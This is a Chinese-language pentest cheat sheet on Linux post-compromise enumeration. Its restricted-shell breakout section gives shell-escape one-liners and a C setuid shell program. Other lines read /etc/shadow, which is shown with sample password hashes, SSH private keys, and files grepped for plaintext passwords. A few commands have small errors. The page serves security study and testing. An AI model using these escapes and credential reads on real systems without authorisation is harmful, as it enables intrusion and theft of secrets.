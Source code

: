 信息收集 - Linux
========================================

获取内核，操作系统和设备信息
----------------------------------------
- 版本信息
    - ``uname -a`` 所有版本
    - ``uname -r`` 内核版本信息
    - ``uname -n`` 系统主机名字
    - ``uname -m`` Linux内核架构
- 内核信息 ``cat /proc/version``
- CPU信息 ``cat /proc/cpuinfo``
- 发布信息
    - ``cat /etc/*-release``
    - ``cat /etc/issue``
- 主机名 ``hostname``
- 文件系统 ``df -a``
- 内核日志 ``dmesg`` / ``/var/log/dmesg``
- 查看当前shell ``echo $0``
	
	::
	
		Restricted Shell
		使用“rbash”，“ - restricted”，“ - r”选项启动任何现有的shell，那么它将成为Restricted shell。
		Restricted Shell将限制用户执行大多数命令和更改当前工作目录。Restricted Shell将对用户施加以下限制。
		1.它不允许您执行cd命令。所以你不能去任何地方。您可以简单地留在当前的工作目录中。
		2.它不允许您修改  $ PATH，$ SHELL，$ BASH_ENV或$ ENV环境变量的值。
		3.它不允许您执行包含/（斜杠）字符的程序。例如，您无法运行/ usr / bin / uname或./uname命令。但是，您可以执行uname命令。换句话说，您只能在当前路径中运行命令。
		4.您无法使用'重定向输出'>'，'> |'，'<>'，'>＆'，'＆>'，'和'>>'重定向运算符。
		5.它不允许您在脚本中退出受限制的shell模式。
		6.它不允许您使用'set + r'或'set + o restricted'关闭受限制的shell模式。
		常见的受限制 shell 有:rbash、rksh、rsh、lshell.
- 突破受限shell
	- 枚举Linux环境
		
	::
	
		枚举是找到突破方法的重要组成部分。我们需要枚举Linux环境来检测为了绕过rbash我们可以做哪些事。
		在正式进行绕过测试之前,我们需要进行以下操作:
		1、首先,我们必须检查可用命令,像cd、ls、echo等
		2、接下来我们要检查常见的操作符,像>、>>、<、|
		3、然后对可用的编程语言进行检查,如perl、ruby、python等
		4、通过sudo -l命令检查我们可以使用root权限运行哪些命令
		5、使用SUID perm检查文件或命令。
		6、使用echo $SHELL命令检查当前使用的是什么shell(90%得到的结果是rbash)
		7、使用env或者printenv命令检查环境变量
		通过以上操作,我们已收集到一些游泳的信息,接下来尝试一下通用的利用方法。
		
	- 通用利用技巧

	::
	
		1、如果"/"命令可用的话,运行/bin/sh或者/bin/bash
		2、运行cp命令,将/bin/sh或者/bin/bash复制到当前目录
		3、在ftp中运行!/bin/sh或者!/bin/bash,如下图所示
		4、在gdb中运行!/bin/sh或者!/bin/bash
		5、在more、man、less中运行!/bin/sh或者!/bin/bash
		6、在vim/vi中运行!/bin/sh或者!/bin/bash
		7、在rvim中执行:python import os; os.system("/bin/bash )
		8、scp -S /path/yourscript x y:
		9、awk 'BEGIN {system("/bin/sh or /bin/bash")}'
		10、find / -name test -exec /bin/sh or /bin/bash \;
		
	- 编程语言技巧
	
	::
	
		1、使用except spawn
		2、python -c 'import os; os.system("/bin/sh")'
		3、php -a then exec("sh -i");
		4、perl -e 'exec "/bin/sh";'
		5、Lua:os.execute('/bin/sh').
		6、ruby:exec "/bin/sh"
		7、python: echo os.system('/bin/bash')
		
	- 高级利用技巧
	
	::
	
		1、ssh username@IP – t "/bin/sh" or "/bin/bash"
		2、ssh username@IP -t "bash –noprofile"
		3、ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
		4、ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
		5、git帮助状态下通过!/bin/bash进入交互式shell
		6、pico -s "/bin/bash"进入编辑器写入/bin/bash然后按ctrl + T键
		7、zip /tmp/test.zip /tmp/test -T –unzip-command="sh -c /bin/bash"
		8、tar cf /dev/null testfile –checkpoint=1 –checkpointaction=exec=/bin/bash
		9、c setuid shell:
		#include <stdlib.h>
		#include <unistd.h>
		#include <stdio.h>
		int main(int argc,char **argv,char **envp)
		{
			setresgid(getegid(),getegid(),getegid());
			setresuid(geteuid(),geteuid(),geteuid());
			
		 execve("/bin/sh",argv,envp);
		 return 0;
		}
			
	- ``ssh guest@x.x.x.x -t "python -c 'import pty;pty.spawn(\"/bin/bash\")'"``

用户和组
----------------------------------------
- 列出系统所有用户 ``cat /etc/passwd``
	::
	
		root:x:0:0::/root:/bin/bash
		bin:x:1:1::/:/usr/bin/nologin
		daemon:x:2:2::/:/usr/bin/nologin
		mail:x:8:12::/var/spool/mail:/usr/bin/nologin
		ftp:x:14:11::/srv/ftp:/usr/bin/nologin
		http:x:33:33::/srv/http:/usr/bin/nologin
		nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
		dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
		systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
		systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
		systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
		systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
		systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
		systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
		uuidd:x:68:68::/:/usr/bin/nologin
		dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
		py:x:1000:1000::/home/py:/bin/bash
		git:x:974:974:git daemon user:/:/usr/bin/git-shell
		redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
		
		注册名：口令：用户标识号：组标识号：用户名：用户主目录：命令解释程序
		(1)注册名(login_name)：该字段被限制在8个字符(字母或数字)的长度之内,字母大小写是敏感的。
		(2)口令(passwd)：系统用口令来验证用户的合法性。
		现在的Unix/Linux系统中，口令不再直接保存在passwd文件中，通常将passwd文件中的口令字段使
		用一个“x”来代替，将/etc/shadow作为真正的口令文件，用于保存包括个人口令在内的数据。
		如果passwd字段中的第一个字符是“*”的话，表示系统不允许持有该账号的用户登录。 
		(3)用户标识号(UID)：UID是一个数值，是Linux系统中惟一的用户标识，用于区别不同的用户。 
		(4)组标识号(GID)：这是当前用户的缺省工作组标识。
		(5)用户名(user_name)：包含有关用户的一些信息。
		(6)用户主目录(home_directory)：该字段定义了个人用户的主目录。
		(7)命令解释程序(Shell)：通常是一个Shell程序的全路径名，如/bin/bash。 

- 列出系统所有组 ``cat /etc/group``
- 列出所有用户hash（root）``cat /etc/shadow``
	::
	
		root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
		daemon:*:18440:0:99999:7:::
		bin:*:18440:0:99999:7:::
		sys:*:18440:0:99999:7:::
		sync:*:18440:0:99999:7:::
		games:*:18440:0:99999:7:::
		man:*:18440:0:99999:7:::
		lp:*:18440:0:99999:7:::
		mail:*:18440:0:99999:7:::
		news:*:18440:0:99999:7:::
		uucp:*:18440:0:99999:7:::
		proxy:*:18440:0:99999:7:::
		www-data:*:18440:0:99999:7:::
		backup:*:18440:0:99999:7:::
		list:*:18440:0:99999:7:::
		irc:*:18440:0:99999:7:::
		gnats:*:18440:0:99999:7:::
		nobody:*:18440:0:99999:7:::
		_apt:*:18440:0:99999:7:::
		systemd-timesync:*:18440:0:99999:7:::
		systemd-network:*:18440:0:99999:7:::
		systemd-resolve:*:18440:0:99999:7:::
		messagebus:*:18440:0:99999:7:::
		avahi-autoipd:*:18440:0:99999:7:::
		sshd:*:18440:0:99999:7:::
		avahi:*:18440:0:99999:7:::
		saned:*:18440:0:99999:7:::
		colord:*:18440:0:99999:7:::
		hplip:*:18440:0:99999:7:::
		systemd-coredump:!!:18440::::::
		296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
		
		文件的格式为：{用户名}：{加密后的口令密码}：{口令最后修改时间距原点(1970-1-1)的天数}：{口令最小修改间隔(防止修改口令，如果时限未到，将恢复至旧口令)：{口令最大修改间隔}：{口令失效前的警告天数}：{账户不活动天数}：{账号失效天数}：{保留}
		其中{加密后的口令密码}的格式为 $id$salt$encrypted
		id为1时，采用md5算法加密
		id为5时，采用SHA256算法加密
		id为6时，采用SHA512算法加密
		salt为盐值,是对密码进行hash的一个干扰值
		encrypted为散列值
	
- 用户
    - 查询用户的基本信息 ``finger``
    - 当前登录的用户 ``users`` ``who -a`` ``/var/log/utmp``
- 目前登录的用户 ``w``
- 登入过的用户信息 ``last`` / ``/var/log/wtmp``
- 显示系统中所有用户最近一次登录信息 ``lastlog`` / ``/var/log/lastlog``
- 登录成功日志 ``/var/log/secure``
- 登录失败日志 ``/var/log/faillog``
- 查看特权用户 ``grep :0 /etc/passwd``
- 查看passwd最后修改时间 ``ls -l /etc/passwd``
- 查看是否存在空口令用户 ``awk -F: 'length($2)==0 {print $1}' /etc/shadow``
- 查看远程登录的账号 ``awk '/\$1|\$6/{print $1}' /etc/shadow``
- 查看具有sudo权限的用户
    - ``cat /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"``

用户和权限信息
----------------------------------------
- 当前用户 ``whoami``
- 当前用户信息 ``id``
- 可以使用sudo提升到root的用户（root） ``cat /etc/sudoers``
- 列出目前用户可执行与无法执行的指令 ``sudo -l``

环境信息
----------------------------------------
- 打印系统环境信息 ``env``
- 打印系统环境信息 ``set``
- 环境变量中的路径信息 ``echo  $PATH``
- 打印历史命令 ``history`` / ``~/.bash_history``
- 显示当前路径 ``pwd``
- 显示默认系统遍历 ``cat /etc/profile``
- 显示可用的shell ``cat /etc/shells``

进程信息
----------------------------------------
- 查看进程信息 ``ps aux``
- 资源占有情况 ``top -c``
- 查看进程关联文件 ``lsof -c $PID``

服务信息
----------------------------------------
- 由inetd管理的服务列表 ``cat /etc/inetd.conf``
- 由xinetd管理的服务列表 ``cat /etc/xinetd.conf``
- nfs服务器的配置 ``cat /etc/exports``
- 邮件信息 ``/var/log/mailog``

计划任务
----------------------------------------
- 显示指定用户的计划作业（root） ``crontab -l -u %user%``
- 计划任务
    - ``/var/spool/cron/*``
    - ``/var/spool/anacron/*``
    - ``/etc/crontab``
    - ``/etc/anacrontab``
    - ``/etc/cron.*``
    - ``/etc/anacrontab``
- 开机启动项
    - ``/etc/rc.d/init.d/``

有无明文存放用户密码
----------------------------------------
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find , -name "\*\.php" -print0 | xargs -0 grep -i -n "var \$password"

有无ssh 私钥
----------------------------------------
- cat ~/.ssh/authorized_keys
- cat ~/.ssh/identity.pub
- cat ~/.ssh/identity
- cat ~/.ssh/id_rsa.pub
- cat ~/.ssh/id_rsa
- cat ~/.ssh/id_dsa.pub
- cat ~/.ssh/id_dsa
- cat /etc/ssh/ssh_config
- cat /etc/ssh/sshd_config
- cat /etc/ssh/ssh_host_dsa_key.pub
- cat /etc/ssh/ssh_host_dsa_key
- cat /etc/ssh/ssh_host_rsa_key.pub
- cat /etc/ssh/ssh_host_rsa_key
- cat /etc/ssh/ssh_host_key.pub
- cat /etc/ssh/ssh_host_key


网络、路由和通信
----------------------------------------
- 列出网络接口信息 ``/sbin/ifconfig -a`` / ``ip addr show``
- 列出网络接口信息 ``cat /etc/network/interfaces``
- 查看系统arp表 ``arp -a``
- 打印路由信息 ``route`` / ``ip ro show``
- 查看dns配置信息 ``cat /etc/resolv.conf``
- 打印本地端口开放信息 ``netstat -an``
- 列出iptable的配置规则 ``iptables -L``
- 查看端口服务映射 ``cat /etc/services``
- Hostname ``hostname -f``
- 查看进程端口情况 ``netstat -anltp | grep $PID``

已安装程序
----------------------------------------
- ``rpm -qa --last`` Redhat
- ``yum list | grep installed`` CentOS
- ``ls -l /etc/yum.repos.d/``
- ``dpkg -l`` Debian
- ``cat /etc/apt/sources.list`` Debian APT
- ``pkg_info`` xBSD
- ``pkginfo`` Solaris
- ``pacman -Q`` Arch Linux

文件
----------------------------------------
- 最近五天的文件 ``find / -ctime +1 -ctime -5``
- 文件系统细节 ``debugfs``
